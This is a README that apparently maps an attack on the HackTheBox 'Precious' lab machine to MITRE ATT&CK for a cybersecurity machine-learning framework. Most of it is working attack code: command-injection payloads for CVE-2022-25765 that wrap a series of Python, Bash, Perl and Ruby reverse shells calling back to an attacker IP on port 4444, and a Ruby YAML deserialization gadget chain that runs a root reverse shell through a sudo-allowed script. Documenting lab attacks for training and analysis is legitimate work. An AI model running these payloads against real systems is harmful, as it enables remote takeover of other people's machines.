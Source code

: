 # Cyber4ML_Framework application in "Precious" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.36|10.10.11.189|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Precious Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Precious/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-25765/CWE-78 |
| Execution | Command and Scripting Interpreter | Unix Shell | (1) | - |
| Persistence | Valid Accounts | Default Accounts | (2) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | [dependencies.yml](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Precious/dependencies.yml) | CVE-2017-18342/CWE-502 |

#### Commands/Scripts
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
ssh henry@10.10.11.189
```

#### Alternative Commands/Scripts
- (1)
```
http://%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.36/4444 <&1'`  
```

```
http://%20`export RHOST="10.10.16.36";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`
```

```
http://%20`perl -e 'use Socket;$i="10.10.16.36";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'`
```

```
http://%20`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.36:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
```

```
http://%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.36",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`
```

```
http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.36",4444))'`
```

```
http://%20`ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.16.36","4444");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'`
```

- dependencies.yml
```
---
- !ruby/object:Gem::Installer
   i: x
- !ruby/object:Gem::SpecFetcher
   i: y
- !ruby/object:Gem::Requirement
 requirements:
   !ruby/object:Gem::Package::TarReader
   io: &1 !ruby/object:Net::BufferedIO
     io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
     debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
                socket: !ruby/module 'Kernel'
                method_id: :system
            git_set: "bash -c 'exec bash -i &>/dev/tcp/10.10.16.36/4444 <&1'"
        method_id: :resolve
```

## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Precious/attack_capture.pcapng)

## Log Analysis

```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

```
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```
